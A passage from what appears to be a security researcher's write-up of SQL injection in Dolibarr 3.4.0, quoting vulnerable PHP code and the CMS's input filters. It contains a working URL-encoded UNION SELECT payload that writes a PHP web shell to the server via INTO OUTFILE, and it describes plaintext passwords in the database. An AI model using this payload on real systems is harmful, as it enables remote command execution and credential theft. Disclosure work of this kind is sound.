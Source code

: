 ```
        $sql.= " p.libelle as country, p.code as country_code,";
        $sql.= " d.nom as state, d.code_departement as state_code,";
        $sql.= " u.rowid as user_id, u.login as user_login,";
        $sql.= " s.nom as socname, s.address as socaddress, s.zip as soccp, s.town as soccity, s.default_lang as socdefault_lang";
        $sql.= " FROM ".MAIN_DB_PREFIX."socpeople as c";
        $sql.= " LEFT JOIN ".MAIN_DB_PREFIX."c_pays as p ON c.fk_pays = p.rowid";
        $sql.= " LEFT JOIN ".MAIN_DB_PREFIX."c_departements as d ON c.fk_departement = d.rowid";
        $sql.= " LEFT JOIN ".MAIN_DB_PREFIX."user as u ON c.rowid = u.fk_socpeople";
        $sql.= " LEFT JOIN ".MAIN_DB_PREFIX."societe as s ON c.fk_soc = s.rowid";
        $sql.= " WHERE c.rowid = ". $id;

        dol_syslog(get_class($this)."::fetch sql=".$sql);
        $resql=$this->db->query($sql);
```

Our vulnerable parameter `id` is sanitized only by the previously described functions.  There are now two main options; dump information from the database, or drop a web shell onto the host.  The latter is the best case and the former is, usually, a good consolatory prize.  However, in this case, the database is ripe with information, specifically:

{{< figure class="center" src="http://4.bp.blogspot.com/-2tO85Ih1O2s/UlEbzsgAAWI/AAAAAAAAAts/VlnnOIbHPQM/s1600/wow_db.JPG" >}}

Yeah, that's your plaintext password stored right next to the hashed version.  Dumping the database just got a whole lot more interesting.

Our attention now turns to evading the filters listed above.  For obtaining a shell, the only evasion we need to consider is UNION SELECT, as INTO OUTFILE/DUMPFILE is not filtered.  After a bit of deliberation and source code analysis, it was determined that the filters were trivially bypassed by URL encoding SQL keywords.  The following query will drop a web shell at the given location:

```
http://localhost/dolibarr-3.4.0/htdocs/contact/fiche.php?id=1%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20'<?php%20system($_GET[\'cmd\'])?>',1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35%20INTO%20OUTFILE%20'/var/www/dolibarr-3.4.0/documents/shell.php'&action=confirm_delete&confirm=yes HTTP/1.1
```

Which results in:

{{< figure class="center" src="http://1.bp.blogspot.com/-1fdpL601fvY/UlHJRh5Us-I/AAAAAAAAAt8/JKKRGytyNjQ/s640/web_shell.JPG" >}}

The documents folder is a perfect candidate for our web shell as, during installation of the CMS, this folder must be user-created and writable by the install, giving us a guaranteed and predictable location for the web shell.

This vulnerability has been detected in `contact.class.php` in four different functions: fetch, update, delete, and create.  

We now take another look at the XSS filtering function:

```
  // For XSS Injection done by adding javascript with script
    // This is all cases a browser consider text is javascript:
    // When it found '<script', 'javascript:', '<style', 'onload\s=' on body tag, '="&' on a tag size with old browsers
    // All examples on page: http://ha.ckers.org/xss.html#XSScalc
    $sql_inj += preg_match('/<script/i', $val);
    if (! defined('NOSTYLECHECK')) $sql_inj += preg_match('/<style/i', $val);
    $sql_inj += preg_match('/base[\s]+href/i', $val);
    if ($type == 1)
    {
        $sql_inj += preg_match('/javascript:/i', $val);
        $sql_inj += preg_match('/vbscript:/i', $val);
    }
```